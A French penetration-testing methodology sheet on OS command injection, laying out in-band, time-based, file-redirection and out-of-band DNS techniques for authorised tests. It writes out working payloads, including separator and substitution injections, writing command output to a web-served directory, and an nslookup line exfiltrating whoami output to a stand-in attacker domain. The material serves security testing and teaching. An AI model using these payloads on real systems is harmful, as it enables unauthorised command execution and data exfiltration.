

# OS Command Injection — Méthodologie d'exploitation

## 1. Objectif et périmètre de la méthodologie

Cette fiche a pour objectif de démontrer, dans le cadre d'un test d'intrusion **autorisé**, qu'un point d'entrée applicatif transmet tout ou partie d'une donnée contrôlée par le client à un appel système invoquant un **interpréteur shell** sur le serveur, permettant l'exécution de commandes OS arbitraires.

Le comportement de sécurité à démontrer est l'exécution effective d'une commande choisie par l'attaquant sur le système sous-jacent — et non simplement une erreur applicative ou un comportement inhabituel du paramètre testé.

**Variantes couvertes par cette fiche :**

1. **Injection visible (in-band)** : le résultat de la commande injectée (stdout/stderr) apparaît directement dans la réponse HTTP.
2. **Injection aveugle par temporisation (time-based blind)** : aucune sortie visible, confirmation via un délai de réponse provoqué.
3. **Injection aveugle par redirection de sortie (file-based blind)** : aucune sortie visible dans la réponse HTTP, mais écriture du résultat dans un fichier accessible publiquement par ailleurs.
4. **Injection aveugle Out-of-Band (OOB/OAST)** : aucune sortie visible ni fichier exploitable, confirmation via un canal sortant (DNS notamment), avec variante d'exfiltration de données par ce même canal.

**Principe de raisonnement**

La démarche part toujours de la même hypothèse de fond — *« ce paramètre est-il concaténé tel quel à une commande shell exécutée côté serveur ? »* — et progresse en complexité croissante : on teste d'abord si le résultat est directement visible (le cas le plus simple à confirmer), puis, en l'absence de sortie visible, on descend vers les techniques aveugles dans un ordre de complexité croissante (temporisation, puis fichier, puis OOB), chaque technique n'étant mobilisée que lorsque la précédente ne permet pas de conclure. Une fois l'injection confirmée par n'importe laquelle de ces méthodes, la phase de reconnaissance système vient documenter l'impact réel.

**Hors périmètre de cette fiche**

Le cours ne fournit pas de détails sur l'élévation de privilèges post-exploitation, le pivotement réseau effectif, ni sur des techniques de contournement de liste blanche ou de filtres de métacaractères spécifiques (WAF, filtrage applicatif) — ces points ne sont donc pas traités ici faute d'information source, et devront être abordés au cas par cas si rencontrés sur la cible.

---

## 2. Conditions préalables et état de référence

### 2.1. Prérequis techniques

**Prérequis indispensables :**

- Un point d'entrée dont la valeur est, au moins en partie, transmise à un appel système shell côté serveur (script, binaire externe invoqué par l'application).
- La possibilité de contrôler au moins un paramètre de cette invocation (paramètre GET/POST, en-tête, nom de fichier, etc. — le cours n'illustre que le cas d'un paramètre GET/POST, mais le mécanisme sous-jacent n'est pas spécifique à ce seul vecteur de transport).

**Conditions fréquentes mais non systématiques :**

- La présence d'un affichage direct du résultat de la commande dans la réponse (condition suffisante pour l'injection visible, mais absente dans la majorité des cas réels — à vérifier au cas par cas, pas à supposer par défaut).
- Un filtrage de certains métacaractères (`&`, `;`, etc.) sans filtrage exhaustif de tous les opérateurs listés en §3.1, ouvrant la voie à des opérateurs alternatifs.

**Éléments à vérifier sur la cible avant de commencer :**

- Le système d'exploitation sous-jacent (Linux/Unix vs Windows), car la syntaxe des commandes de reconnaissance (§4 du cours) et certains opérateurs (notamment `&` comme séparateur séquentiel sous Windows contre exécution en arrière-plan sous Unix) en dépendent directement.
- La présence d'un encodage ou d'un composant intermédiaire (reverse proxy, WAF) susceptible d'altérer les métacaractères avant qu'ils n'atteignent l'application — le cours signale explicitement que l'esperluette doit être encodée (`%26`) pour ne pas être interprétée comme séparateur de paramètres HTTP avant même d'atteindre l'application.

### 2.2. Établir le comportement normal

Avant tout test d'injection, établir une référence sur le point d'entrée suspecté :

- Effectuer une requête légitime avec des valeurs de paramètres normales (ex. `productID=381&storeID=29`) et noter le code HTTP, le corps de la réponse et le temps de réponse.
- Répéter cette requête de référence plusieurs fois pour caractériser la latence normale (bruit réseau), indispensable pour interpréter correctement un test de temporisation (§5.1).
- Noter si la réponse contient déjà, dans son fonctionnement normal, un résultat généré par un script ou binaire externe (indice indirect qu'un appel système existe derrière ce point d'entrée).

Cette référence est nécessaire pour distinguer un simple ralentissement réseau ou un comportement applicatif normal d'un signal réellement provoqué par l'injection, en particulier pour la détection aveugle par temporisation où la seule preuve disponible est un écart de délai.

---

## 3. Reconnaissance : où rechercher la vulnérabilité ?

### 3.1. Surfaces de test

| Élément à examiner | Pourquoi cette surface est pertinente | Contrôle disponible | Observation initiale | Hypothèse de vulnérabilité | Premier test |
|---|---|---|---|---|---|
| Paramètre dont la valeur ressemble à un identifiant transmis à un script/binaire externe (ex. `productID`, `storeID`) | Le cours illustre ce cas précisément : un paramètre d'URL transmis tel quel à un script shell (`stockreport.pl`) | Valeur du paramètre dans la requête GET/POST | Fonctionnement normal du point d'entrée (résultat attendu) établi en référence (§2.2) | Le paramètre est concaténé sans échappement à une commande shell | Insérer un séparateur de commande suivi d'une commande inoffensive (ex. `echo <chaîne aléatoire>`) |
| Tout paramètre déclenchant visiblement un traitement côté serveur impliquant un outil externe (conversion de fichier, génération de rapport, ping/traceroute applicatif, etc.) | Ces fonctionnalités invoquent fréquemment un binaire externe via un appel shell — mécanisme générique derrière le cas illustré par le cours | Paramètre ou champ associé à cette fonctionnalité | Comportement attendu de la fonctionnalité en usage normal | Même mécanisme sous-jacent que le cas illustré : concaténation non échappée à une commande shell | Même premier test que ci-dessus, adapté au paramètre concerné |
| Réponse HTTP du point d'entrée testé | Détermine si l'injection, si confirmée, sera visible (in-band) ou nécessitera une technique aveugle | Contenu affiché par l'application pour une requête normale vs une requête injectée | Présence ou non, dans la réponse normale, d'un contenu généré dynamiquement par le script invoqué | L'injection sera visible si la sortie du script apparaît déjà dans la réponse normale | Comparer la réponse à la requête de référence avec la réponse à la requête injectée (§4, Étape 1) |

> Le cours ne documente qu'un seul type de point d'entrée illustratif (paramètre GET/POST transmis à un script shell). D'autres vecteurs de transport (en-têtes HTTP, noms de fichiers uploadés, champs de formulaire) obéissent au même mécanisme de fond mais ne sont pas détaillés nommément dans la source — à considérer comme des surfaces à examiner par extension du même principe, non comme des cas confirmés par le cours.

### 3.2. Indices et faux positifs

**Observations qui peuvent suggérer la vulnérabilité :**

- Apparition, dans la réponse, d'une chaîne de caractères arbitraire injectée via `echo` (signal fort, cf. Étape 1).
- Un délai de réponse anormalement plus long après injection d'une commande de pause, par rapport à la référence.
- Un message d'erreur système inhabituel (erreur de shell, erreur de commande introuvable) apparaissant après modification du paramètre — indice indirect que la valeur atteint un interpréteur de commandes.

**Observations qui ne suffisent pas à confirmer la vulnérabilité :**

- Un délai de réponse plus long observé une seule fois : à confirmer par répétition et comparaison avec la plage de latence de référence (§2.2), le réseau ou la charge serveur pouvant expliquer un écart isolé.
- Une erreur HTTP générique (500) après modification du paramètre : peut résulter d'une simple erreur de validation applicative sans rapport avec une exécution shell — ne constitue pas en soi une preuve d'injection.
- L'absence de toute sortie visible : n'infirme pas l'hypothèse, signifie seulement qu'il faut passer aux techniques aveugles (§5 du cours) plutôt que de conclure à une absence de vulnérabilité.

**Comportements normaux à ne pas confondre avec la faille :**

- Un paramètre strictement validé comme numérique, qui rejette systématiquement toute valeur non numérique avant tout traitement ultérieur, constitue une mesure de la contre-mesure recommandée par le cours (§6) — un rejet immédiat et cohérent de ce type n'est pas un résultat ambigu à creuser davantage, mais une probable infirmation.

**Vérifications complémentaires pour lever les ambiguïtés :**

- Toujours établir la référence de latence (§2.2) avant d'interpréter un test de temporisation.
- Tester plusieurs opérateurs/métacaractères (§3.1 du cours) avant de conclure à une absence de vulnérabilité, un filtrage partiel ne bloquant parfois qu'un sous-ensemble des séparateurs possibles.

---

## 4. Séquence de tests : démarche pas à pas

### Étape 1 — Injection visible (in-band) par séparateur de commande

**Objectif**
Vérifier si le paramètre ciblé est concaténé sans échappement à une commande shell exécutée côté serveur, et si le résultat de la commande injectée est directement visible dans la réponse HTTP.

**Prérequis**
Un point d'entrée identifié en reconnaissance (§3.1), et un comportement de référence établi (§2.2).

**Hypothèse**
Le paramètre est transmis tel quel à un appel système shell, sans validation ni échappement des métacaractères.

**Action à effectuer**
Ajouter à la valeur du paramètre un séparateur de commande suivi d'une commande d'écho inoffensive produisant une chaîne identifiable, en encodant le séparateur si nécessaire pour qu'il survive au transport HTTP.

```http
GET /stockStatus?productID=381&storeID=29%26echo%20aiwefwlguh%26 HTTP/1.1
Host: vulnerable-website.com
```

Si `&` ne produit pas d'effet, tester successivement les autres séparateurs listés en §3.1 du cours (`;`, `&&`, `|`, `||`, `\n`/`%0a`), chacun pouvant être filtré indépendamment des autres.

**Observations à examiner**
Présence de la chaîne injectée (`aiwefwlguh`) dans le corps de la réponse HTTP ; code de réponse ; tout message d'erreur système inhabituel.

**Résultat positif**
La chaîne injectée apparaît dans la réponse → l'injection est **confirmée** sous sa forme visible (in-band), via le séparateur utilisé.

**Résultat négatif ou ambigu**
Aucune chaîne injectée n'apparaît, quel que soit le séparateur testé parmi ceux du §3.1 → ne permet pas de conclure à une absence de vulnérabilité : la commande peut être exécutée sans que sa sortie ne soit renvoyée au client (cas aveugle), ou les séparateurs testés sont filtrés alors que d'autres techniques (substitution de commande, sortie de contexte) ne le sont pas.

**Interprétation**
Un résultat négatif sur ce test n'infirme que l'hypothèse « sortie visible » ; il ne dit rien sur l'existence ou non de l'injection elle-même, qui doit être recherchée par les techniques aveugles (Étape 2 et suivantes) avant toute conclusion.

**Étape suivante**
Si confirmé → passer directement à la reconnaissance système (Étape 5), l'injection in-band permettant une exécution de commandes directement exploitée. Si non concluant → tester l'Étape 1b (substitution de commande et sortie de contexte), puis en l'absence de résultat, passer à l'Étape 2 (détection aveugle par temporisation).

**Erreurs fréquentes**
Ne tester qu'un seul séparateur (`&`) et conclure à une absence de vulnérabilité sans avoir essayé les autres opérateurs du §3.1 ; oublier d'encoder le séparateur dans une requête GET, ce qui peut le faire interpréter comme un délimiteur de paramètres HTTP par un composant intermédiaire plutôt que par l'application elle-même.

---

### Étape 1b — Variantes syntaxiques : substitution de commande et sortie de contexte

**Objectif**
Tester des formes alternatives d'injection lorsque les séparateurs classiques (§3.1) sont filtrés ou lorsque l'entrée est concaténée à l'intérieur d'une chaîne quotée côté applicatif.

**Prérequis**
Résultat négatif ou ambigu à l'Étape 1 avec l'ensemble des séparateurs testés.

**Hypothèse**
Soit le filtrage ne porte que sur les séparateurs explicites et laisse passer une substitution de commande ; soit l'entrée utilisateur est insérée dans une chaîne quotée qu'il faut d'abord fermer avant d'injecter un métacaractère.

**Action à effectuer**
Tester la substitution de commande :

```bash
$(whoami)
`whoami`
```

Tester la sortie de contexte, si l'on suspecte une concaténation dans une chaîne quotée côté applicatif :

```bash
" ; whoami ; "
' ; whoami ; '
```

**Observations à examiner**
Présence du résultat de `whoami` (ou de la commande testée) dans la réponse, ou tout changement de comportement (erreur de syntaxe shell) suggérant que les guillemets ont été correctement fermés.

**Résultat positif**
Le résultat de la commande apparaît → injection **confirmée** via cette syntaxe alternative.

**Résultat négatif ou ambigu**
Aucun résultat visible → ne permet toujours pas de conclure à l'absence de vulnérabilité, en particulier si la sortie n'est simplement jamais renvoyée au client (cas aveugle) ; passer aux tests de détection aveugle (Étape 2).

**Interprétation**
Un échec de la sortie de contexte avec guillemets doubles mais une absence de test avec guillemets simples (ou inversement) laisse la question ouverte — le cours ne précise pas quel type de quote est utilisé côté applicatif, les deux doivent être testés indépendamment.

**Étape suivante**
Si confirmé → passer à la reconnaissance système (Étape 5). Si non concluant → passer à l'Étape 2.

**Erreurs fréquentes**
Supposer qu'un seul type de guillemet (simple ou double) est en jeu sans tester les deux.

---

### Étape 2 — Détection aveugle par temporisation (time-based blind)

**Objectif**
Confirmer l'existence d'une injection de commande en l'absence de toute sortie visible, en provoquant un délai de réponse mesurable et attribuable à la commande injectée.

**Prérequis**
Résultat négatif ou ambigu aux Étapes 1 et 1b ; une mesure de référence de la latence normale du point d'entrée (§2.2) déjà établie.

**Hypothèse**
La commande injectée est bien exécutée côté serveur, mais son résultat (stdout/stderr) n'est pas renvoyé dans la réponse HTTP ; seule une commande provoquant un délai observable permettra de la détecter.

**Action à effectuer**
Injecter une commande de pause adaptée au système d'exploitation supposé de la cible (à déterminer ou à tester successivement si inconnu) :

```bash
# Linux
& ping -c 10 127.0.0.1 &
```

```bash
# Windows
& timeout /t 10 &
```

**Observations à examiner**
Temps de réponse de la requête injectée comparé à la plage de latence de référence établie en §2.2.

**Résultat positif**
Le temps de réponse correspond à la durée attendue de la commande de pause (ex. ~10 secondes pour les exemples ci-dessus), de façon reproductible sur plusieurs répétitions → injection **confirmée** sous forme aveugle par temporisation.

**Résultat négatif ou ambigu**
Aucun délai significatif par rapport à la référence, ou délai non reproductible → ne permet pas de conclure à une absence de vulnérabilité : le délai peut avoir été absorbé par un traitement asynchrone côté serveur, ou l'environnement peut filtrer strictement les sorties sans empêcher l'exécution (cas nécessitant l'OOB, Étape 4).

**Interprétation**
Une latence réseau variable peut fausser l'interprétation ; toujours répéter la mesure plusieurs fois et comparer à la distribution de la référence, pas seulement à une seule mesure de référence, avant de conclure dans un sens ou dans l'autre.

**Étape suivante**
Si confirmé → passer à la reconnaissance système (Étape 5), en utilisant si possible l'Étape 3 (redirection de sortie) pour obtenir un retour exploitable plutôt que de rester limité à une simple confirmation temporelle. Si non concluant → tester l'Étape 3 (redirection de sortie vers un fichier accessible).

**Erreurs fréquentes**
Injecter une commande de pause sans avoir au préalable déterminé l'OS cible, et conclure à tort à une absence de vulnérabilité après un seul essai sur la syntaxe de l'OS inadapté ; ne pas répéter la mesure et interpréter un pic de latence réseau isolé comme une confirmation.

---

### Étape 3 — Détection/exploitation aveugle par redirection de sortie (file-based blind)

**Objectif**
Obtenir un retour exploitable du résultat d'une commande injectée, en l'absence de sortie directe, en écrivant ce résultat dans un emplacement accessible publiquement.

**Prérequis**
Résultat négatif ou ambigu à l'Étape 2, ou volonté d'obtenir un retour exploitable au-delà de la simple confirmation temporelle ; connaissance ou hypothèse sur un chemin accessible publiquement par le serveur web (ex. racine de documents statiques).

**Hypothèse**
Le serveur permet l'écriture de fichiers à un emplacement que l'application web sert ensuite publiquement, rendant le résultat de la commande injectée récupérable via une requête HTTP classique.

**Action à effectuer**
Injecter une commande redirigeant sa sortie vers un fichier dans un répertoire servi publiquement par le serveur web :

```bash
& whoami > /var/www/static/whoami.txt &
```

Puis récupérer le résultat via une requête HTTP distincte :

```bash
curl https://vulnerable-website.com/static/whoami.txt
```

**Observations à examiner**
Code de réponse et contenu de la requête de récupération du fichier écrit.

**Résultat positif**
Le fichier est accessible et contient le résultat attendu de la commande (ex. le nom d'utilisateur courant) → injection **confirmée** avec un retour exploitable.

**Résultat négatif ou ambigu**
Le fichier n'est pas accessible (404) → ne permet pas de conclure, plusieurs causes possibles : chemin incorrect, absence de droits d'écriture du processus serveur sur ce répertoire, ou absence réelle d'exécution de la commande — à distinguer via le diagnostic (section 7) avant de conclure.

**Interprétation**
Un échec à cette étape, combiné à un résultat positif à l'Étape 2 (temporisation), indique que l'exécution a bien lieu mais que l'environnement ne permet pas (ou le chemin supposé est incorrect) l'écriture de fichiers accessibles — ne pas infirmer l'injection elle-même sur ce seul critère.

**Étape suivante**
Si confirmé → passer à la reconnaissance système (Étape 5) en utilisant ce même canal de retour pour chaque commande suivante. Si non concluant → passer à l'Étape 4 (technique Out-of-Band).

**Erreurs fréquentes**
Supposer un chemin de documents statiques sans l'avoir vérifié au préalable sur la cible (le cours illustre `/var/www/static/` à titre d'exemple, pas comme un chemin universel) ; oublier que l'absence d'accès au fichier peut provenir d'un défaut de droits d'écriture plutôt que d'une absence d'injection.

---

### Étape 4 — Détection/exfiltration aveugle Out-of-Band (OAST/DNS)

**Objectif**
Confirmer l'injection dans un environnement qui filtre strictement les sorties (pas de redirection de fichier possible, pas de délai perceptible côté serveur applicatif mutualisé), via un canal sortant indépendant de la réponse HTTP.

**Prérequis**
Résultat négatif ou ambigu aux Étapes 2 et 3 ; accès à un service de type Burp Collaborator ou équivalent générant un sous-domaine unique et capable d'enregistrer les résolutions DNS entrantes.

**Hypothèse**
La commande est exécutée côté serveur et celui-ci dispose d'une connectivité sortante (résolution DNS), même si aucune sortie n'est visible dans la réponse HTTP ni récupérable par fichier statique.

**Action à effectuer**
Déclencher une résolution DNS vers un sous-domaine unique contrôlé par le testeur :

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

Pour exfiltrer une donnée (ex. le résultat de `whoami`) via ce même canal, concaténer le résultat dans le sous-domaine interrogé :

```bash
& nslookup $(whoami).kgji2ohoyw.web-attacker.com &
```

**Observations à examiner**
Réception d'une requête DNS entrante sur le service OAST, et pour la variante d'exfiltration, contenu du sous-domaine interrogé (qui doit refléter le résultat de la commande interne).

**Résultat positif**
Une résolution DNS est reçue sur le service OAST, avec pour la variante d'exfiltration un sous-domaine contenant effectivement le résultat attendu → injection **confirmée** via canal Out-of-Band, avec un canal d'exfiltration de données disponible.

**Résultat négatif ou ambigu**
Aucune requête DNS reçue → ne permet pas nécessairement de conclure à une absence d'injection : le serveur peut ne pas disposer de connectivité sortante (environnement cloisonné), ou la résolution DNS peut être filtrée spécifiquement sans que l'exécution de commande elle-même ne soit empêchée — point à diagnostiquer (section 7) avant de considérer l'hypothèse comme infirmée.

**Interprétation**
Le cours indique explicitement que l'OOB est le seul moyen fiable de confirmer une injection totalement aveugle dans un environnement filtrant strictement les sorties ; un résultat négatif sur ce test, après échec des trois techniques précédentes, constitue le signal le plus proche d'une infirmation réelle de l'hypothèse d'injection — sans toutefois l'établir avec certitude si une restriction de connectivité sortante n'a pas été écartée séparément.

**Étape suivante**
Si confirmé → passer à la reconnaissance système (Étape 5) en utilisant l'exfiltration DNS comme canal de retour pour chaque commande. Si non concluant après les quatre techniques (in-band, time-based, file-based, OOB) → documenter l'absence de preuve d'injection sur ce point d'entrée et revenir à la reconnaissance (section 3) pour identifier d'autres surfaces de test, ou appliquer le diagnostic des échecs (section 7) si un doute subsiste sur la validité des tests eux-mêmes.

**Erreurs fréquentes**
Ne pas vérifier au préalable que le service OAST utilisé est accessible et correctement configuré (test de résolution manuelle avant d'injecter) ; confondre une absence de connectivité sortante du serveur (hors du contrôle du testeur) avec une absence d'injection.

---

### Étape 5 — Reconnaissance système (post-confirmation)

**Objectif**
Documenter l'étendue réelle de l'accès obtenu, une fois l'injection confirmée par l'une des techniques précédentes.

**Prérequis**
Injection confirmée par au moins une des Étapes 1 à 4, avec un canal de retour disponible (réponse directe, fichier statique, ou exfiltration DNS selon la technique ayant fonctionné).

**Hypothèse**
Non applicable — cette étape ne teste plus une hypothèse de vulnérabilité, elle mesure l'impact de celle déjà confirmée.

**Action à effectuer**
Exécuter, via le canal de retour disponible, les commandes de reconnaissance adaptées à l'OS identifié, en les chaînant si besoin en une seule requête pour limiter le nombre d'allers-retours et le bruit dans les logs :

```bash
& whoami && id && uname -a &
```

Adapter selon l'OS et l'objectif (voir le tableau de correspondance Linux/Windows du cours, §4) : utilisateur courant, version du système, configuration et connexions réseau, processus en cours, arborescence du répertoire, comptes locaux, privilèges courants.

**Observations à examiner**
Résultat de chaque commande de reconnaissance, retourné via le canal confirmé aux étapes précédentes.

**Résultat positif**
Les commandes retournent des informations cohérentes et exploitables (utilisateur système réel, chemins de fichiers existants) → impact confirmé, niveau de privilège et portée de l'accès documentés.

**Résultat négatif ou ambigu**
Certaines commandes échouent alors que d'autres réussissent → peut indiquer des restrictions de privilèges spécifiques au compte système utilisé par le processus serveur, à documenter commande par commande plutôt qu'à généraliser.

**Interprétation**
Un échec isolé sur une commande (ex. `cat /etc/passwd` refusé) ne remet pas en cause la confirmation globale de l'injection si d'autres commandes (ex. `whoami`) ont abouti ; il documente une limite de privilège du processus compromis.

**Étape suivante**
Passer à la vérification de l'impact (section 8) pour consigner la preuve minimale et proportionnée.

**Erreurs fréquentes**
Exécuter un volume excessif de commandes de reconnaissance au-delà du nécessaire pour démontrer l'impact, risquant de dépasser le périmètre autorisé du test (section 8 : proportionnalité de la preuve).

---

## 5. Arbre de décision : que faire selon le résultat ?



**Précisions sur les branches clés :**

- **« Signal ambigu »** (ex. délai de temporisation non reproductible, fichier inaccessible pour une cause inconnue) : toujours router vers la section 7 (diagnostic) avant de passer à la technique suivante, pour éviter de confondre une erreur de test avec une infirmation de l'hypothèse.
- **« Une étape de l'exploitation échoue »** (ex. OOB confirmé mais reconnaissance système qui échoue totalement) : revenir au diagnostic (section 7) pour localiser si la restriction porte sur le compte système du processus serveur plutôt que sur l'injection elle-même.

---

## 6. Construire la chaîne d'exploitation

1. **Point d'entrée** : paramètre applicatif (GET/POST, ou tout vecteur de transport équivalent par extension du même mécanisme) transmis à un appel système.
2. **Primitive technique** : absence d'échappement des métacaractères shell lors de la construction de la commande invoquée côté serveur, permettant l'ajout d'un segment de commande arbitraire via un séparateur, une substitution de commande ou une sortie de contexte.
3. **Déclenchement** : envoi de la requête contenant le payload d'injection.
4. **Effet intermédiaire** : exécution de la commande injectée par l'interpréteur shell du serveur — observable directement (in-band), via un délai mesurable (time-based), via un fichier accessible (file-based), ou via une connexion sortante (OOB).
5. **Aboutissement** : obtention d'un canal de retour permettant l'exécution et la lecture de commandes de reconnaissance arbitraires (Étape 5).
6. **Preuve** : résultat cohérent et vérifiable d'une commande de reconnaissance (ex. `whoami` retournant un utilisateur système plausible), obtenu via le canal confirmé.

### Tableau récapitulatif

| Étape | Résultat requis | Comment le vérifier | Si cela échoue |
|---|---|---|---|
| Injection visible | Chaîne injectée affichée dans la réponse | Comparaison directe avec la réponse de référence | Passer aux variantes syntaxiques (substitution, sortie de contexte) |
| Variantes syntaxiques | Résultat de commande affiché via substitution/sortie de contexte | Même comparaison | Passer à la détection par temporisation |
| Temporisation | Délai de réponse conforme à la commande de pause injectée, reproductible | Comparaison avec la plage de latence de référence sur plusieurs répétitions | Passer à la redirection de sortie vers fichier |
| Redirection de sortie | Fichier accessible publiquement contenant le résultat attendu | Requête HTTP de récupération du fichier | Passer à la technique OOB |
| OOB/DNS | Résolution DNS reçue sur le service de test, contenu conforme pour l'exfiltration | Consultation du service OAST | Diagnostic (section 7) avant d'abandonner ou de changer de surface |
| Reconnaissance système | Résultat cohérent d'au moins une commande (ex. `whoami`) | Lecture du résultat via le canal confirmé | Documenter la limite de privilège constatée, sans remettre en cause l'injection elle-même |

Ce tableau distingue le **comportement anormal** (ex. un délai plus long une seule fois), la **vulnérabilité confirmée** (ex. un délai reproductible et conforme à la commande injectée) et l'**exploitation réussie** (ex. un résultat de commande de reconnaissance lisible et vérifiable) — ces trois niveaux ne doivent pas être confondus dans le rapport final.

---

## 7. Diagnostic des échecs

| Symptôme observé | Causes possibles | Comment les distinguer | Test de diagnostic | Suite logique |
|---|---|---|---|---|
| Aucune chaîne injectée n'apparaît (Étape 1) | (a) Absence réelle d'injection ; (b) injection aveugle (sortie non renvoyée) ; (c) séparateur spécifique filtré | Tester systématiquement tous les séparateurs du §3.1 avant de conclure | Essayer successivement `;`, `&`, `&&`, `\|`, `\|\|`, `%0a` | Si tous échouent → passer aux techniques aveugles (b n'est pas exclu par un échec en in-band) |
| Le délai de temporisation n'est pas reproductible | (a) Bruit réseau/charge serveur ; (b) absence réelle d'injection | Répéter la mesure plusieurs fois à des moments différents et comparer à la distribution de référence, pas à une seule valeur | Relancer le test de temporisation 5 à 10 fois et observer la cohérence du délai | Si le délai redevient cohérent sur répétition → confirmé ; sinon → passer au file-based |
| Aucun délai observé avec la syntaxe testée | (a) OS cible différent de celui supposé (ex. commande Linux testée sur cible Windows) ; (b) absence réelle d'injection | Déterminer l'OS probable par un indice indirect (en-têtes serveur, messages d'erreur) avant de retester | Tester la syntaxe de l'autre OS avant de conclure à un échec | Si la syntaxe adaptée produit un délai → confirmé ; sinon → passer au file-based |
| Le fichier écrit n'est pas accessible (404) | (a) Chemin de documents statiques incorrect ; (b) absence de droits d'écriture du processus serveur sur ce répertoire ; (c) absence réelle d'exécution | Croiser avec le résultat de l'Étape 2 (temporisation) : un délai confirmé en Étape 2 mais un échec en Étape 3 pointe vers (a) ou (b), pas vers (c) | Tester un chemin alternatif connu/deviné, ou se limiter au résultat de la temporisation si aucun chemin exploitable n'est trouvé | Si la temporisation est déjà confirmée → l'injection reste établie malgré l'échec du file-based ; passer directement à l'OOB pour obtenir un canal de retour |
| Aucune résolution DNS reçue (OOB) | (a) Absence de connectivité sortante du serveur (cloisonnement réseau) ; (b) filtrage spécifique de la résolution DNS ; (c) absence réelle d'injection | Croiser avec les résultats des étapes précédentes (temporisation notamment) pour établir si l'exécution elle-même a déjà été démontrée | Si la temporisation (Étape 2) a déjà confirmé l'injection, l'échec de l'OOB documente une restriction de connectivité, pas une absence de faille | Documenter l'injection comme confirmée (via temporisation) mais sans canal de retour exploitable — exploitation limitée |
| Certaines commandes de reconnaissance échouent alors que d'autres réussissent (Étape 5) | Restriction de privilèges du compte système utilisé par le processus serveur | Comparer les commandes qui échouent (souvent celles nécessitant des privilèges élevés) à celles qui réussissent | Tester une commande de vérification de privilèges (`id` / `whoami /priv`) pour documenter le niveau exact | Documenter le niveau de privilège réel obtenu, sans remettre en cause la confirmation globale de l'injection |

**Principe directeur du diagnostic** : avant de changer de technique, croiser systématiquement le résultat du test en échec avec les résultats des tests précédents (notamment la temporisation, souvent la plus simple à confirmer) pour déterminer si l'échec provient d'une limite de l'environnement (chemin, droits, connectivité) ou d'une réelle absence d'injection.

---

## 8. Vérification de l'exploitation et preuve de l'impact

**Résultat final à observer :**

L'exécution démontrée d'au moins une commande de reconnaissance (§4 du cours) dont le résultat est cohérent et vérifiable (ex. un nom d'utilisateur système plausible, une version d'OS correspondant à l'environnement probable de la cible), obtenue via l'un des quatre canaux de retour confirmés (réponse directe, fichier statique, exfiltration DNS, ou délai de temporisation pour la seule confirmation d'exécution sans lecture de donnée).

**Éléments techniques permettant de confirmer le résultat :**

- Pour l'in-band et le file-based : capture du contenu retourné, directement lisible.
- Pour le time-based : série de mesures reproductibles démontrant une corrélation claire entre la durée de la commande injectée et le délai observé.
- Pour l'OOB : capture de la requête DNS reçue sur le service de test, avec horodatage correspondant à l'envoi de la requête d'injection.

**Contrôles pour exclure une explication alternative :**

- Pour le time-based, écarter une coïncidence de charge serveur en répétant la mesure à différents moments et en variant la durée de la commande injectée (ex. tester successivement 5 et 10 secondes de pause et vérifier que le délai observé suit cette variation).
- Pour le file-based et l'OOB, s'assurer que le résultat obtenu correspond bien au contenu attendu de la commande injectée (ex. un `whoami` dont le résultat est un nom d'utilisateur plausible) et non un contenu préexistant sans rapport.

**Différence entre preuve de comportement vulnérable et preuve d'impact :**

Un délai de réponse plus long établit un **comportement anormal**. Un délai reproductible et corrélé à la durée de la commande injectée établit la **vulnérabilité confirmée** (exécution de commande démontrée). Seule l'obtention d'un résultat de commande de reconnaissance lisible et exploitable (via file-based, OOB ou in-band) établit un niveau de **preuve d'impact** documentant l'étendue réelle de l'accès obtenu — une confirmation par timing seul démontre l'injection mais pas encore l'étendue de l'accès.

**Limites de ce que l'on peut conclure :**

- Une confirmation par OOB démontre l'exécution de commande et une connectivité sortante, mais ne garantit pas que toutes les commandes de reconnaissance seront exécutables avec les mêmes privilèges (cf. diagnostic, dernière ligne du tableau §7).
- Le cours ne fournit pas d'information sur l'élévation de privilèges ou le pivotement réseau effectif : la preuve d'impact de cette fiche se limite à l'exécution de commandes de reconnaissance, sans extension vers une compromission plus large non documentée par la source.

La preuve retenue doit rester minimale, reproductible et proportionnée : se limiter aux commandes de reconnaissance nécessaires pour démontrer l'impact (ex. `whoami`, `id`), sans chaîner un nombre excessif de commandes au-delà de ce qui est requis pour le rapport.

---

